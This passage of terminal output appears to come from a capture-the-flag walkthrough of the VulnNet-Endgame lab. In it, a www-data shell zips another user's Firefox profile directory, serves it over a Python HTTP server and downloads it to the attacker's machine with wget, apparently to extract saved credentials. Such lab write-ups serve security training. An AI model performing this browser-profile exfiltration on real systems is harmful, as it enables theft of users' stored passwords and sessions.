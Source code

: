 ```bash
/home/system/.mozilla/firefox/2fjnrwth.default-release/containers.json
/home/system/.mozilla/firefox/2fjnrwth.default-release/webappsstore.sqlite
/home/system/.mozilla/firefox/2fjnrwth.default-release/features/{7f91ed06-a1ff-4eba-8bac-603e2d8dcecf}/webcompat@mozilla.org.xpi
/home/system/.mozilla/firefox/2fjnrwth.default-release/SiteSecurityServiceState.txt
/home/system/.mozilla/firefox/profiles.ini
/home/system/.bashrc
/home/system/user.txt
/home/system/.sudo_as_admin_successful
/home/system/.bash_logout
/home/system/.profile
```

```bash
www-data@vulnnet-endgame:/home/system/.mozilla/firefox$ ls -lah
total 36K
drwxr-xr-x  7 system system 4.0K Jun 14  2022  .
drwxr-xr-x  4 system system 4.0K Jun 14  2022  ..
drwxr-xr-x 13 system system 4.0K Jun 14  2022  2fjnrwth.default-release
drwxr-xr-x  2 system system 4.0K Jun 14  2022  2o9vd4oi.default
drwxr-xr-x 13 system system 4.0K Jun 14  2022  8mk7ix79.default-release
drwxr-xr-x  3 system system 4.0K Jun 14  2022 'Crash Reports'
drwxr-xr-x  2 system system 4.0K Jun 14  2022 'Pending Pings'
-rwxr-xr-x  1 system system   62 Jun 14  2022  installs.ini
-rwxr-xr-x  1 system system  259 Jun 14  2022  profiles.ini
```

```bash
www-data@vulnnet-endgame:/home/system$ zip /tmp/system-mozilla.zip .mozilla -r
```

```bash
www-data@vulnnet-endgame:/home/system$ cd /tmp                                
www-data@vulnnet-endgame:/tmp$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
:~/VulnNet-Endgame# wget http://xx.xxx.x.xx0/system-mozilla.zip
--2025-09-14 xx:xx:xx--  http://xx.xxx.x.xx/system-mozilla.zip
Connecting to xx.xxx.x.xx:8000... connected.
...
```

```bash
:~/VulnNet-Endgame# unzip system-mozilla.zip
```

```bash
:~/VulnNet-Endgame/.mozilla/firefox# ls
 2fjnrwth.default-release   2o9vd4oi.default   8mk7ix79.default-release  'Crash Reports'   installs.ini  'Pending Pings'   profiles.ini
```

```bash
:~/Desktop/.mozilla/firefox# ls -lah
total 36K
drwxr-xr-x  7 root root 4.0K Jun 14  2022  .
drwxr-xr-x  4 root root 4.0K Jun 14  2022  ..
drwxr-xr-x 13 root root 4.0K Jun 14  2022  2fjnrwth.default-release
drwxr-xr-x  2 root root 4.0K Jun 14  2022  2o9vd4oi.default
drwxr-xr-x 13 root root 4.0K Jun 14  2022  8mk7ix79.default-release
drwxr-xr-x  3 root root 4.0K Jun 14  2022 'Crash Reports'
-rwxr-xr-x  1 root root   62 Jun 14  2022  installs.ini
drwxr-xr-x  2 root root 4.0K Jun 14  2022 'Pending Pings'
-rwxr-xr-x  1 root root  259 Jun 14  2022  profiles.ini
```
